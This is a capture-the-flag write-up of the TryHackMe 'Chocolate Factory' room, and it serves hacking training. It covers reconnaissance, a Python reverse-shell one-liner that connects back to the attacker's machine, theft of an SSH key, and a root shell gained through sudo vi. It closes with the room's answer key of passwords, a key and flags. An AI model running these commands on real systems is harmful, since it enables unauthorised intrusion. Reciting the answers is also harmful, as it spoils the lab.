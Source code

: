 ```yaml
---
title: TryHackMe - Boot2Root - Chocolate Factory
date: '2024-03-20'
tags: ['ctf', 'tryhackme', 'boot2root', 'writeup', 'steghide']
draft: false
summary: An easy room with web shell available. 
---
```


## Challenge Description

A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!

## Solution
Starting off with an `nmap` scan:

```python
nmap -sS -sV -oN nmap.log $IP
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled.png)

**`http`**, **`ssh`** and **`ftp`** is running. Lets have a look at the web page.

Its a login page:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled1.png)

Before doing anything crazy, let’s gather information about its directories.

I am using **`gobuster`** for it:

```python
gobuster dir -u $IP -w /opt/directory-list-2.3-medium.txt -x php,sh,cgi,html,css,tar,php,js,py,txt | tee gobuster.log
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled2.png)

I found a Web shell on **`/home.php`**:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled3.png)

Let’s spawn a reverse shell to local machine. But first, lets check if python is installed or not.

And it is installed:

```bash
python3 --version
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled4.png)

I opened a port to listen for reverse shell on my local machine:

```bash
nc -lnvp 9999
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled5.png)

*I used this python reverse shell one-liner:*

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<local-ip>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled6.png)

I founded these files:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled7.png)

From **`key_rev_key`** , I got the key:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled8.png)

And got charlie’s web page password from **`validate.php`**:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled9.png)

And I also found the `ssh` key of charlie from its home directory:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled10.png)

Copy it, set appropriate permissions and submit (No password is required):

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled11.png)

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled12.png)

Upon checking charlie’s sudo permission, we can clearly see that we can run vi as root:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled13.png)

I used this command to get a root shell:

```
sudo -u#0 /usr/bin/vi -c ':!/bin/bash'
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled14.png)

Now to get root flag, I went to root’s home directory and found a python file named **`root.py`** and upon running it, it asks for the key:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled15.png)

I entered the key that I got earlier an here is the flag:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled16.png)

---

**Question/Answers:**

1. Enter the key you found!
    
    ```
    b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
    ```
    
2. What is Charlie's password?
    
    ```
    cn7824
    ```
    
3. change user to charlie
    
    ```
    NO ANSWER NEEDED
    ```
    
4. Enter the user flag
    
    ```
    flag{cd5509042371b34e4826e4838b522d2e}
    ```
    
5. Enter the root flag
    
    ```
    flag{cec59161d338fef787fcb4e296b42124}
    ```
